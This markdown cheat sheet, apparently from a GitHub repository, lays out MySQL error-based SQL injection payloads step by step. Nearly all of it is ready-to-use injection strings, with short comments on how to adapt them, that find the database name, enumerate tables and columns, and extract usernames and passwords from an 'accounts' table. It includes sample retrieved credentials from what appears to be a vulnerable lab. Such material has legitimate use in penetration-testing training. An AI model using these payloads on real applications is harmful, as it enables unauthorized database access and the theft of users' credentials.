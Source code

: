 SQL Injection ERROR Based
=========================

Detection
---------
```sql
# Modify "8095" and monitor for different responses.
'+AND+(SELECT+8095+FROM(SELECT+COUNT(*),CONCAT('qqvkq',(SELECT+(ELT(8095=8095,1))),'qbzxq',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Current Database
--------------------
```sql
# Search response for 'ZZZZZZ" to get DB name eg "targetdb.ZZZZZZ does not exist"
'+AND+(SELECT+7199+FROM(SELECT+COUNT(*),CONCAT('qxxvq',(SELECT+(CASE+WHEN+(ISNULL(ZZZZZZ(NULL)))+THEN+1+ELSE+0+END)),'qkbjq',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Number of Tables
--------------------
```sql
# Search response for "zzz" to get the number of tables eg "Duplicate entry zzz12zzz"
'+AND+(SELECT+6583+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+COUNT(table_name)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema+IN+('nowasp')),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Table Names
---------------
```sql
# Need to modify "table_schema+IN+('nowasp')" to reflect the database name identified above
# Search response for "zzz" to get table name eg "zzzaccountszzz"
'+AND+(SELECT+4981+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+MID((table_name),1,54)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema+IN+('nowasp')+LIMIT+0,1),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+

# Increment "LIMIT+0,1" like this.... "LIMIT+1,1" "LIMIT+2,1" until the total number of tables have been reached. 
'+AND+(SELECT+4981+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+MID((table_name),1,54)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema+IN+('nowasp')+LIMIT+1,1),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Number of Columns in Table
------------------------------
```sql
# Search response for "zzz" to get the number of columns in the table eg "zzz7zzz"
'+AND+(SELECT+3173+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+COUNT(*)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name='accounts'+AND+table_schema='nowasp'),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Columns Names in Table
---------------------------
```sql
# Need to modify the "table_name" and "table_schema" before injection
# Increment "LIMIT+0,1" like this.... "LIMIT+1,1" "LIMIT+2,1" until the total number of columns has been reached. 
'+AND+(SELECT+1076+FROM(SELECT+COUNT(*),CONCAT('qxxvq',(SELECT+MID((column_name),1,54)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name='accounts'+AND+table_schema='nowasp'+LIMIT+0,1),'qkbjq',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
```


Get Number of Entries in Column
-------------------------------
```sql
# Search for "zzz' in response, eg "zzz42zzz" 
# need to modify "ORDER+BY+password" to reflect any column name identified 
# Need to modify "FROM+nowasp.accounts" as identified
'+AND+(SELECT+9332+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+MID((password),1,54)+FROM+nowasp.accounts+ORDER+BY+password+LIMIT+0,1),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+


Get Data from Columns
---------------------
```sql
# Search for "zzz' in response, eg "zzzadminzzz"
'+AND+(SELECT+9332+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+MID((password),1,54)+FROM+nowasp.accounts+LIMIT+0,1),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+

# Increment "LIMIT+0,1" like this.... "LIMIT+1,1" "LIMIT+2,1"
'+AND+(SELECT+9332+FROM(SELECT+COUNT(*),CONCAT('zzz',(SELECT+MID((password),1,54)+FROM+nowasp.accounts+LIMIT+0,1),'zzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+


# pay close attention to "(SELECT+MID((username)" and "(SELECT+MID((password)" (these are the columns), also "LIMIT+6,1" and "LIMIT+7,1" must match the order.

'+AND+(SELECT+9130+FROM(SELECT+COUNT(*),CONCAT('zzzzz',(SELECT+MID((username),1,54)+FROM+nowasp.accounts+ORDER+BY+password+LIMIT+6,1),'zzzzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
[14:57:27] [INFO] retrieved: 'PPan'
'+AND+(SELECT+6392+FROM(SELECT+COUNT(*),CONCAT('zzzzz',(SELECT+MID((password),1,54)+FROM+nowasp.accounts+ORDER+BY+password+LIMIT+7,1),'zzzzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
[14:57:27] [INFO] retrieved: 'password'


'+AND+(SELECT+7348+FROM(SELECT+COUNT(*),CONCAT('zzzzz',(SELECT+MID((username),1,54)+FROM+nowasp.accounts+ORDER+BY+password+LIMIT+7,1),'zzzzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
[14:57:27] [INFO] retrieved: 'jeremy'
'+AND+(SELECT+6924+FROM(SELECT+COUNT(*),CONCAT('zzzzz',(SELECT+MID((password),1,54)+FROM+nowasp.accounts+ORDER+BY+password+LIMIT+8,1),'zzzzz',FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)--+
[14:57:27] [INFO] retrieved: 'password'
```
